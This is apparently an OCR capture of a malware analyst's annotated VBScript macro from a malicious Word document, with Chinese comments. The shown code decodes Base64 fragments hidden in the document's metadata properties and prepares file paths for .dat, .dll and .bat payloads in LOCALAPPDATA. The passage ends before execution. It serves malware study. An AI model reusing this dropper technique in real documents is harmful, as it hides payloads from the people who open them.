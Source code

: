 ```vbscript
                 
           If -1 = indexInTable Then
                Exit Function
           End If
             
           groupBase64Number = (groupBase64Number * base) + indexInTable
        Next
      
        groupBase64Number = Hex(groupBase64Number)
            
        'add leading zeroes, lengt of hex = 6:
         groupBase64Number = String(6 - Len(groupBase64Number), "0") & groupBase64Number
            
        'split hex number into 3 groups, 2 hex characters each:
        decodedBytes(outputIndex) = CByte("&H" & Mid(groupBase64Number, 1, 2))
        outputIndex = outputIndex + 1
        If realBytesInThisGroup > 1 Then
            decodedBytes(outputIndex) = CByte("&H" & Mid(groupBase64Number, 3, 2))
            outputIndex = outputIndex + 1
            If realBytesInThisGroup > 2 Then
                decodedBytes(outputIndex) = CByte("&H" & Mid(groupBase64Number, 5, 2))
                outputIndex = outputIndex + 1
            End If
        End If
    Next
      
    DecodeBase64 = decodedBytes
End Function
     
Private Sub Execute()  #执行函数
    Dim Path As String
    Dim FileNum As Long
    Dim bin() As Byte
    Dim cmdLine As String
    Const HIDDEN_WINDOW = 1
    strComputer = "."
    
    'extract and decode encoded file  进行提取与解码  分别提取了 文件 属性  详细信息里数据（均为base64段）为  主题  公司  
    Subject = ActiveDocument.BuiltInDocumentProperties.Item("Subject") #主题 数据
    Subject = Right(Subject, Len(Subject) - 50)
    
    Company = ActiveDocument.BuiltInDocumentProperties.Item("Company")  #公司 数据
    Company = Right(Company, Len(Company) - 50)
    
    Category = ActiveDocument.BuiltInDocumentProperties.Item("Category") #类别  数据
    Category = Right(Category, Len(Category) - 50)
    
    Hyperlink_base = ActiveDocument.BuiltInDocumentProperties.Item("Hyperlink base") # 翻译是超链接基础，实际看 文件 名称哪里 也有hash段  看了相关文章 有点不一样 需要去看下提取方法
    Hyperlink_base = Right(Hyperlink_base, Len(Hyperlink_base) - 50)
    
    Comments = ActiveDocument.BuiltInDocumentProperties.Item("Comments") #注释
    Comments = Right(Comments, Len(Comments) - 50)
    
    
    base64 = Subject + Company + Category + Hyperlink_base + Comments
    bin = DecodeBase64(base64) #进行 base64 解密

    'save decoded file
    Path = Environ("LOCALAPPDATA") + "\" + "netwf" + ".dat"  #生成文件名路径
    
    PathPld = Environ("LOCALAPPDATA") + "\" + "netwf" + ".dll" #生成文件名路径
    PathPldBt = Environ("LOCALAPPDATA") + "\" + "netwf" + ".bat" #生成文件名路径
```